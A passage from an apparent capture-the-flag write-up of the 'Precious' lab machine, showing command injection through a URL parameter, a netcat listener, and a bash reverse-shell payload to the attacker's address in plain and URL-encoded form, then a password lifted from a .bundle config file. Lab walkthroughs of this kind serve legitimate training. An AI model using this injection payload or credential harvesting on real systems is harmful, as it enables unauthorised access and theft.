 ![Precious](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/precious/Pasted%20image%2020230521220735.png)

Looking back at the python3 web server I got a hit showing the machine hostname

```
┌──(root㉿dragon)-[~/htb/precious/www]
└─# python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [21/May/2023 22:05:43] "GET /?zon=%20precious HTTP/1.1" 200 -
```

Next, I'll set up a new `nc` listener to catch a reverse shell

```
┌──(root㉿dragon)-[~/htb/precious]
└─# nc -lvnp 9001               

listening on [any] 9001 ...
```

With command injection, I'll send a basic bash reverse shell to my listener. Below is the non encoded-payload and the encoded one

```
http://10.10.14.11/?zon=%20`bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"

#URL ENCODED
url=http://10.10.14.11/%3fzon%3d%2520`bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.11/9001+0>%261"`
```

Once the payload got executed I got a shell as `ruby`

## Pivot To Henry
Inside `/home/ruby` there was an interesting `.bundle` folder and inside a config file that contained the password for henry.
